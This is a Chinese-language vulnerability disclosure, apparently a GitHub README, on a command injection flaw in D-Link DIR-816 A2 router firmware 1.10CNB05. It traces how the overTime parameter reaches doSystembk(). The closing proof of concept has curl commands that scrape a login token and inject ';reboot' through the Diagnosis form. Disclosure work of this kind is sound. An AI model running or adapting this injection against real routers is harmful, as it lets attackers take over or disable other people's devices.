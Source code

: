 # Dlink DIR-816 命令注入漏洞
## Overview
- 厂商网址：https://www.dlink.com/
- 固件下载地址：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
Dlink DIR-816A2_FWv1.10CNB05中存在一个命令注入漏洞，可以在路由系统中执行任意命令。

## Affected version

![](pic/version.png "")

图中显示了路由器的最新固件:A2_FWv1.10CNB05
## Vulnerability details
在webs上可以看到硬件版本是A2 1.10。

![](pic/web.png "")

在goahead中，我们可以在sub_45AC4C中找到代码细节，程序将overTime参数获取的内容传递给V5。

![](pic/code1.png "")

然后，通过snprintf函数将V5的匹配内容格式化为V10。

![](pic/code2.png "")

V10参数由函数doSystembk()调用，存在命令注入漏洞

## Vulnerability exploitation condition
需要获取cookie来执行攻击。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下shell命令进行攻击

Poc如下
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1' -d 'overTime=10;reboot'
```
运行poc后，效果如下，路由器重启，无发连接到路由器。

![](pic/effect2.png "")


## CVE-ID
unsigned
